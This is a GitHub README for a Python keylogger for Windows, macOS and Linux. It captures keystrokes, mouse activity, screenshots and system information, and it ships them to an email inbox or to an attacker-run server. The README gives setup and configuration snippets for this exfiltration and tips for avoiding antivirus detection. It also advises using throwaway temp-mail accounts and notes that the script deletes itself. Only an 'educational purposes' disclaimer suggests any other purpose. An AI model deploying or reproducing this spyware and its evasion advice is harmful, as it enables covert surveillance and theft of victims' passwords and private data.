

# Keylogger with Email and Server Reporting for windows, macOS and Linux

**⚠️ DISCLAIMER: This tool is for educational purposes only. Using this software without explicit permission from the target system's owner is illegal.**

## Features

- Keyboard and mouse activity logging
- Screenshot capture
- System information collection
- Two reporting methods:
  - Email reporting (`email.py`)
  - Server reporting (`server.py`)

## Antivirus Detection result 

Only 2 antivirus providers detected this script (Google and Sophos) due to system information collection feature of the script. The script is undetected by Kaspersky,McAfee and Windows Defender. To avoid detection by google and sophos, do not use the system information collection feature.
-EMAIL.py

-SERVER.py


## Prerequisites

- Python 3.7 or higher
- Internet connection
- For email version: SMTP server credentials (e.g., Mailtrap.io account) created using [temp-mail.org](https://temp-mail.org/)
- For server version: Access to a web server you have hosted or rented that can receive POST requests

## Installation for Windows , macOS and Linux

### Windows

1. Install Python from [python.org](https://python.org)
2. Open Command Prompt as administrator and run:
```bash
pip install pynput pyscreenshot pillow requests
```

### macOS

1. Install Python (if not already installed):
   ```bash
   # Using Homebrew
   brew install python3
   
   # Or download from python.org
   ```

2. Install required packages:
   ```bash
   pip3 install pynput pyscreenshot pillow requests
   ```

3. Grant Accessibility permissions:
   - Go to System Preferences > Security & Privacy > Privacy > Accessibility
   - Add Terminal (or your IDE) to the list of allowed apps
   - This is required for keyboard monitoring

### Linux

1. Install Python and required system dependencies:
```bash
sudo apt-get update
sudo apt-get install python3 python3-pip python3-tk python3-dev scrot
```

2. Install Python packages:
```bash
pip3 install pynput pyscreenshot pillow requests
```

## Setup Instructions

### Creating TEMPERORARY Email and mailtrap.io account 



1. Visit mailtrap.io and click "Sign Up"
2. Choose "Sign up with email" ,you can use temperary email from [temp-mail.org](https://temp-mail.org/)
3. Once logged in, go to "Email Testing" → "Inboxes"
4. In your inbox, find the SMTP credentials:
   -Click on "Show Credentials"
   -Use the provided username and password in your configuration
   -Use the SMTP server settings provided

### Email Version (email.py)

1. Open `email.py` in a text editor

2. Configure the email settings:
   ```python
   EMAIL_ADDRESS = "YOUR_USERNAME"    # Your SMTP username
   EMAIL_PASSWORD = "YOUR_PASSWORD"   # Your SMTP password
   SEND_REPORT_EVERY = 60            # Report interval in seconds
   ```

3. if you face issues running the default then 
   Update SMTP server settings in the `send_email()` method:
   ```python
   server = smtplib.SMTP("smtp.mailtrap.io", 2525)  # Change to your SMTP server and port
   ```

### Server Version (server.py)

1. Open `server.py` in a text editor
   
2. Configure the server settings:
   ```python
   ip_address = "YOUR_SERVER_IP"      # Your server IP address
   port_number = "YOUR_SERVER_PORT"   # Your server port
   SERVER_URL = f"http://{ip_address}:{port_number}"
   ```

3. The server should be configured to accept POST requests with JSON data containing:
   - timestamp
   - system_info
   - logs
   - screenshot (base64 encoded)

## Running the Script

### Email Version
```bash
# Windows
python email.py

# Linux
python3 email.py

# macOS
python3 email.py
```

### Server Version
```bash
# Windows
python server.py

# Linux
python3 server.py

# macOS
python3 server.py
```

## Stopping the Script

Press `Ctrl+C` to stop the script. The script will automatically remove itself after termination.
open it after running and it will terminate itself.

## Dependencies

- pynput: For keyboard and mouse monitoring
- pyscreenshot: For taking screenshots
- pillow: Image processing
- requests (server version only): For HTTP requests

## Security Notice

- Always use strong, unique passwords for email accounts and server authentication
- Use test/dummy accounts and servers for testing
- Never use this tool on systems without explicit permission
- Keep the script and logs secure to prevent unauthorized access
- For server version, use HTTPS for secure data transmission

## License

Find the license [LICENSE](LICENSE.md)